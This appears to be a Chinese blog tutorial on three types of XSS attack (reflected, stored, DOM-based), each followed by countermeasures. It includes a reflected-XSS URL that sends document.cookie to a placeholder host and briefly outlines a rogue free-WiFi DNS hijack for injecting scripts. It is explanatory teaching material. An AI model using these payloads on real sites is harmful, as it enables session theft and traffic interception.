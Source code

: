 ```yaml
---
title: xss攻击
date: 2018-08-27 19:42:30
tags: [安全, xss]
categories: 其它
---
```


XSS（cross-site scripting跨域脚本攻击）攻击是最常见的web攻击，其重点是“跨域”和“客户端执行”。XSS攻击分为三种，分别是：
1. Reflected XSS（基于反射的XSS攻击）
2. Stored XSS（基于存储的XSS攻击）
3. DOM-based or local XSS（基于DOM或本地的XSS攻击）

###### 1、Reflected XSS
基于反射的XSS攻击，主要依靠站点服务端返回脚本，再客户端触发执行从而发起Web攻击。

> 例子

> 1、做个假设，当亚马逊在搜索书籍，搜不到书的时候显示提交的名称。

> 2、在搜索框搜索内容，填入“<script>alert('handsome boy')</script>”, 点击搜索。

> 3、当前端页面没有对返回的数据进行过滤，直接显示在页面上，这时就会alert那个字符串出来。

> 4、进而可以构造获取用户cookies的地址，通过QQ群或者垃圾邮件，来让其他人点击这个地址：

```
http://www.amazon.cn/search?name=<script>document.location='http://xxx/get?cookie='+document.cookie</script>
```
安全措施
1. 前端在显示服务端数据时候，不仅是标签内容需要过滤、转义，就连属性值也都可能需要。
2. 后端接收请求时，验证请求是否为攻击请求，攻击则屏蔽。

###### 2、Stored XSS
基于存储的XSS攻击，是通过发表带有恶意跨域脚本的帖子/文章，从而把恶意脚本存储在服务器，每个访问该帖子/文章的人就会触发执行。

> 例子

>1. 发一篇文章，里面包含了恶意脚本

```
今天天气不错啊！<script>alert('handsome boy')</script>
```
> 2. 后端没有对文章进行过滤，直接保存文章内容到数据库。

> 3. 当其他看这篇文章的时候，包含的恶意脚本就会执行。

安全措施
1. 首要是服务端要进行过滤，因为前端的校验可以被绕过。
2. 当服务端不校验时候，前端要以各种方式过滤里面可能的恶意脚本，例如script标
签，将特殊字符转换成HTML编码。

###### 3、DOM-based or local XSS
基于DOM或本地的XSS攻击。一般是提供一个免费的wifi，但是提供免费wifi的网关会往你访问的任何页面插入一段脚本或者是直接返回一个钓鱼页面，从而植入恶意脚本。这种直接存在于页面，无须经过服务器返回就是基于本地的XSS攻击。

> 例子
1. 提供一个免费的wifi。
1. 开启一个特殊的DNS服务，将所有域名都解析到我们的电脑上，并把Wifi的DHCP-DNS设置为我们的电脑IP。
2. 之后连上wifi的用户打开任何网站，请求都将被我们截取到。我们根据http头中的host字段来转发到真正服务器上。
3. 收到服务器返回的数据之后，我们就可以实现网页脚本的注入，并返回给用户。
4. 当注入的脚本被执行，用户的浏览器将依次预加载各大网站的常用脚本库。

![image](http://note.youdao.com/yws/public/resource/b9cdada69234d36736d09235b516171c/xmlnote/6D0B1492A8EA43BC83431AB18AFB4D8D/5307)

安全措施
使用HTTPS!